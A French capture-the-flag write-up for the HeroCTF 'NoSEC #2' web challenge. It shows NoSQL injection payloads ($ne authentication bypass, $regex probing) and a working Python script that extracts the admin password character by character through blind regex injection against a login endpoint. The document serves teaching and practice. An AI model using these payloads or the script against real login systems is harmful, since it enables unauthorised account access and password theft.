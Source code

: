 # NoSEC #2

### Description

Vous devez retrouver le mot de passe de l'administrateur pour valider le challenge ! L'URL du challenge reste la même.

Format: Hero{motdepasse}

### Solution 

Deuxième niveau du challenge [NoSEC #1](https://github.com/0xSysR3ll/CTF/edit/master/HeroCTF/Web/NoSEC1/README.md)

Nous sommes toujours sur une injection NoSQL, le principe reste basiquement le même mais cette fois-ci il va falloir `bruteforcer` le mot de passe.

La payload du niveau 1 consistait à envoyer : `{"username": "admin", "password": {"$ne": randomThing}}` qui faisait valider le mot de passe.

Ici, il va falloit donc falloir faire un attaque du type `Blind NoSQL` en utilisant les regex.

On teste en envoyant : `{"username": {"$eq": "admin"}, "password": {"$regex": "" }}`

On est bien authentifié.

Avec un script python on va alors pouvoir récupérer caractère par caractère le mot de passe.


```python
import requests

passwd = ""
headers = {'Content-Type': 'application/json'}
url = "http://challs.heroctf.fr:3000/login"

for _ in range(32):
    alphabet = "abcdefghijklmnopqrstuvwxyz0123456789"
    for i in range(len(alphabet)):
        c = alphabet[i]
        data = '{"username": {"$eq": "admin"}, "password": {"$regex": "^'+passwd+c+'" }}'
        response = requests.post(url=url, headers=headers, data=data, verify=True)
        
        if b'success' in response.content:
            print('Nouveau caractère trouvé : ', c)
            passwd += c
            
            print("Flag : Hero{"+passwd+"}")
```

Flag : Hero{5d41402abc4b2a76b9719d911017c592}
